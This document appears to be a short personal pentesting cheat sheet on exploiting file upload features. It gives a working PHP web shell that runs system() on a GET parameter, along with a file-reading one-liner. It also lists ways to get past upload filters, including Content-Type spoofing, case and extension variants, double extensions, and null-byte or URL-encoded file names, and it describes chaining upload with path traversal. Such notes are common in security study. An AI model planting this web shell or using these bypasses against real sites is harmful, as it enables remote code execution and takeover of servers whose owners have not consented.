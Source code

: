 
- you can upload PHP files to get RCE (Remote Code Execution) or a Web Shell

```php
<?php echo file_get_contents('/dir/dir/file'); ?>
<?php echo system($_GET['command']); ?>

```


# Bypass filter
```python
- Upload php file then change the Content-Type to image/jpeg or image/png
- use different case - file.pHp
- use extensions such as php5, shtml
- In Apache, a php file might be executed using the double extension technique such as “file.php.jpg” when “.jpg” is allowed.
- use different encoding techniques (null byte, singe and double url encode):
	%2E = .
	%25, %32, %65 = %, 2, 3
	%00 = null byte

	- shell%2E.php
	- shell%25%32%65.php
	- shell.php%00.jpg
	- shell.phpl.jpg



```

![[Pasted image 20221124192425.png]]




# chain attack
```python
- if the application is not validated to restrict executable file upload but restricts the execution of it in specific directory but have a path traversal vulnerability on upload. Upload the executable file (php, etc.) to a different location. Remember to use different encoding techniques to bypass filter.

-
```



